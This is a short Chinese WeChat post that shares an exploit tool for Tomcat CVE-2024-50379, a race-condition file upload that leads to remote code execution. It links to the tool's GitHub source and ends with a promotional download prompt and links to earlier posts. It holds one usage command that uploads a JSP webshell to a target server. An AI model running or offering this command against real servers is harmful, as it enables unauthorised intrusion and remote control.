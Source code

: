 #  【工具分享】Tomcat CVE-2024-50379 条件竞争文件上传 exp RCE   
 Undoubted Security   2024-12-23 12:33  
  
前言  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKVibeL72YzLH79T4AjdRH13DzX1avCNqbSeU0Xb1nicv59X6oLLh7kDFEvYM8xzc2FNaTyUeuPNejw/640?wx_fmt=png "")  
  
声明：本文仅供学习参考使用，如若造成其他不良影响，均与本公众号无关！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKKVhibmmQYk6h7BJniaX1Pkr9ic8Xw9Fu6W3ObsRKIxiaOQ698AxA5OUUiaHO2DZlBAlpjibzKAuNMEYmw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
使用方法  
‍  
‍  
‍  
‍  
‍  
  
本位摘自：  
```
https://github.com/SleepingBag945/CVE-2024-50379
```  
  
   
  
shell.jsp 是shell文件，ggsl.jsp是保存到目标服务器上的名称/路径  
  
输入如下命令：  
  
./CVE-2024-50379 -u http://192.168.2.245:8080 -f shell.jsp -p ggsl.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKwVGgicq2KvlxMjsibmlsoxPlncAvTU1GedxXx5SK2qLAYmMtibTuicNQMhLBHlia4PSlR30dCicvtWWfw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKwVGgicq2KvlxMjsibmlsoxPiaA2Qju4oGkHj4GSyPe4icr9Ib7Tuo2wS2MibeyVmXNJ5pwXrLxHGHoQg/640?wx_fmt=png&from=appmsg "")  
  
  
  
工具下载  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
  
 公众号后台回复  
20241223  
，右下角点击  
在看、点赞  
，获取下载链接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKwVGgicq2KvlxMjsibmlsoxPpkWUiajVtBNkJxgtDyCSReTQMoGJaaq3A1NSTmgAklxJmL0Al19Exuw/640?wx_fmt=png&from=appmsg "")  
  
‍  
‍  
‍  
‍  
‍  
‍  
  
往期推荐  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
  
[【漏洞实例】漏洞挖掘真实案例 记一次管理员密码重置](http://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484573&idx=1&sn=523f1d4b63be44309242b9bcf755ed2a&chksm=e942d076de355960f96cdd69be9e13a5948528cdb2ee023ad1e233f855924ad6ff38c8d89a04&scene=21#wechat_redirect)  
  
  
[【漏洞实例】记一次账户接管](http://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484617&idx=1&sn=933b514f4da95f2115ede3b3af962955&chksm=e942d022de35593420c84a85d7f316842ae73223b4903eb838981204df1bb9c19ea3bd30ffcc&scene=21#wechat_redirect)  
  
  
[【漏洞实例】谷歌云 Google Cloud Platform StackDriver 中 的 SSRF漏洞](http://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484496&idx=1&sn=252f8a86f5c7be61122e0a59e3ca64bd&chksm=e942d0bbde3559adb8e6ee2b48027ff249592921cecadd5e2be18ff738acffe9d82dcc513d4e&scene=21#wechat_redirect)  
  
  
[【漏洞实例】2400美元的命令注入](http://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484423&idx=1&sn=ac8b09f9877f5b42a9a3d558472c3a0e&chksm=e942d0ecde3559fa0f6eddd27b88214d96a16d399ab6072cff9998a82b6f2c59eb9c00a129bd&scene=21#wechat_redirect)  
  
  
[【工具分享】11W+的Nuclei Poc模板 Nuclei渗透测试 攻防利器](https://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484665&idx=1&sn=37fe14c83eb3544a97545d2287014180&scene=21#wechat_redirect)  
  
  
[【工具分享】双十一保卫战SRC资产收集利器 资产管理子系统AssertManager](https://mp.weixin.qq.com/s?__biz=MzI0NjE1NDYyOA==&mid=2247484650&idx=1&sn=97cc855c61fbf0edc774f1f3a04b8b88&scene=21#wechat_redirect)  
  
  
  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
‍  
  
**END**  
  
  
  
